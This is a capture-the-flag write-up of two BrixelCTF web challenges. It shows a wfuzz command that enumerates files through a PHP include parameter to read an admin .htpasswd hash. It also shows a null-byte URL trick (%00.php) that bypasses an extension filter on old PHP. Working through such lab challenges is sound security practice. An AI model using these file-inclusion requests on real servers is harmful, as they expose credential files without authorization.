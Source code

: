 ```
The feds recently closed their churches, but it seems they are preparing for a new online platform to continue their malicious activities.

can you gain access to their admin panel to shut them down?

Their website is: http://timesink.be/pathfinder/


Since the chall is called pathfinder, maybe we can use some tool to find a file within the server. We also know by inspecting the website that there is an /admin page. I used WFUZZ for this task:

```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-files.txt http://timesink.be/pathfinder/index.php?page=admin/FUZZ
```

I found the following file with different length:

<p align="center">
  <img src="/images/writeups/Brixel/Web/passwd.png" width="500"/>
</p>

http://timesink.be/pathfinder/index.php?page=admin/.htpasswd

```
#normally you would brute force this, but that is not in scope of this challenge. The flag is: brixelCTF{unsafe_include}
admin:$apr1$941ydmlw$aPUW.gCFcvUbIcP0ptVQF0 
```

``` brixelCTF{unsafe_include} ```



## Pathfinder 2
20
It seems they updated their security. can you get the password for their admin section on their new site?

http://timesink.be/pathfinder2/

oh yeah, let's assume they are running a php version below 5.3.4 here...


So it seems to have a .php filter on the path:

<p align="center">
  <img src="/images/writeups/Brixel/Web/12_pathfinder2.png" width="500"/>
</p>

So the target is to bypass that filter. Knowing the PHP version is under 5.3.4, we can check on the [PHP changelog](https://www.php.net/releases/5_3_4.php) to check if there is any security patch. We can see the following entry:
- Paths with NULL in them (foo\0bar.txt) are now considered as invalid (CVE-2006-7243).

So maybe if we use this to trick the filepath and to bypass the filter..

http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php

We can retrieve the flag!

``` Great work! the flag is brixelCTF{outdated_php} ```


```